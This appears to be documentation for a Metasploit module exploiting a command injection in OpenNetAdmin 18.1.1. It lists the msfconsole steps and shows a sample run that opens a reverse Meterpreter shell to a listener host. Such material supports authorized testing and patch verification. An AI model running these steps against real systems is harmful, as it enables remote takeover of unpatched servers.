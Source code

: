 ## Description

OpenNetAdmin provides a database managed inventory of your IP network. Each
subnet, host, and IP can be tracked via a centralized AJAX enabled web interface
that can help reduce tracking errors. This module exploits a command injection
in OpenNetAdmin. The vulnerability exists on the `tooltips.inc.php` component,
due to the insecure usage of the `shell_exec()` PHP function.

## Vulnerable Application

This module has been tested with
[OpenNetAdmin 18.1.1](https://github.com/opennetadmin/ona/releases/tag/v18.1.1)

## Setup

https://github.com/opennetadmin/ona/wiki/Install

## Verification

Launch metasploit and set the appropiate options:

> - [ ] Start `msfconsole`
> - [ ] `use exploit/unix/webapp/opennetadmin_ping_cmd_injection`
> - [ ] `set RHOSTS <rhosts>`
> - [ ] `set LHOST <lhost>`
> - [ ] `set VHOST <hostname>`
> - [ ] `exploit`

## Options

**VHOST**

The HTTP server virtual host. You will probably need to configure this as well,
even though it is set as optional.

## Scenarios

Tested OpenNetAdmin 18.1.1 on Ubuntu 19.10 x64

```
msf5 > use exploit/unix/webapp/opennetadmin_ping_cmd_injection
msf5 exploit(opennetadmin_ping_cmd_injection) > set RHOSTS 172.16.172.152
RHOSTS => 172.16.172.152
msf5 exploit(opennetadmin_ping_cmd_injection) > set VHOST example.com
VHOST => example.com
msf5 exploit(opennetadmin_ping_cmd_injection) > set LHOST 172.16.172.1
LHOST => 172.16.172.1
msf5 exploit(opennetadmin_ping_cmd_injection) > exploit
[*] Started reverse TCP handler on 172.16.172.1:4444
[*] Exploiting...
[*] Sending stage (3021284 bytes) to 172.16.172.152
[*] Meterpreter session 1 opened (172.16.172.1:4444 -> 172.16.172.152:38590) at 2019-12-10 02:38:52 +0300
[*] Sending stage (3021284 bytes) to 172.16.172.152
[*] Command Stager progress - 100.12% done (810/809 bytes)

meterpreter >
```
